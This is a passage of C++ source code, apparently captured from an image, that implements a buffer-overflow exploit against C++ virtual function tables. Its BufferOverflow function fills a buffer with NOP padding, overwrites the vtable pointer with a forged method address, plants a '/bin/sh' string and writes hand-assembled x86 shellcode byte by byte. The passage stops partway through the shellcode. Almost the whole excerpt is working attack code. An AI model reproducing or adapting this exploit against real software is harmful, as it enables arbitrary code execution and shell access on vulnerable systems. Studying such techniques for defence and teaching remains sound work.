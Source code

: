 ```c++
};

class MyClass2:public BaseClass {
public:
 void `PrintBuffer()` {
  printf("MyClass2: ");
  BaseClass::`PrintBuffer()`;
 }
};

char *BufferOverflow(unsigned long BufferAddress,int IAddress,int VPTROffset,
 unsigned short AddThis,unsigned long VTABLEAddress,char *NewBuffer,char LastByte) {

 char *CBuf;
 unsigned long *LBuf;
 unsigned short *SBuf;
 char BinShSize,ShellCodeSize,StackCodeSize,NewBufferSize;
 unsigned long i,  
  MethodAddressOffset,BinShAddressOffset,NullOffset,BinShOffset,BinSh00Offset,
  ShellCodeOffset,StackCodeOffset,
  NewBufferOffset,NewBuffer00Offset,
  LastByteOffset;  
 char *BinSh="/bin/sh";
 
 CBuf=(char*)malloc(VPTROffset+4+1);
 LBuf=(unsigned long*)CBuf;
 
 BinShSize=(char)strlen(BinSh);
 ShellCodeSize=0x62;
 StackCodeSize=0x91+2-0x62;
 NewBufferSize=(char)strlen(NewBuffer);
 
 MethodAddressOffset=IAddress*4;
 BinShAddressOffset=MethodAddressOffset+4;
 NullOffset=MethodAddressOffset+8;
 BinShOffset=MethodAddressOffset+12;
 BinSh00Offset=BinShOffset+(unsigned long)BinShSize;
 ShellCodeOffset=BinSh00Offset+1;
 StackCodeOffset=ShellCodeOffset+(unsigned long)ShellCodeSize;
 NewBufferOffset=StackCodeOffset+(unsigned long)StackCodeSize;
 NewBuffer00Offset=NewBufferOffset+(unsigned long)NewBufferSize;
 LastByteOffset=VPTROffset+4;

 for (i=0;i<VPTROffset;i++) CBuf[i]='\x90'; //NOPs
 SBuf=(unsigned short*)&LBuf[2];
 *SBuf=AddThis; //added  to the This pointer on the stack
 
 LBuf=(unsigned long*)&CBuf[MethodAddressOffset];
 *LBuf=BufferAddress+ShellCodeOffset; //shellcode's address
 
 LBuf=(unsigned long*)&CBuf[BinShAddressOffset];
 *LBuf=BufferAddress+BinShOffset; //address of "/bin/sh"

 memcpy(&CBuf[BinShOffset],BinSh,BinShSize); //"/bin/sh" string

 //shellcode:
  
 i=ShellCodeOffset;
 CBuf[i++]='\x55';                                   //pushl %ebp
 CBuf[i++]='\x89';CBuf[i++]='\xE5';                  //movl %esp,%ebp
 CBuf[i++]='\x31';CBuf[i++]='\xC0';                  //xorl %eax,%eax
 CBuf[i++]='\xB0';CBuf[i++]=StackCodeSize;           //movb $StackCodeSize,%al
 CBuf[i++]='\x29';CBuf[i++]='\xC4';                  //subl %eax,%esp
```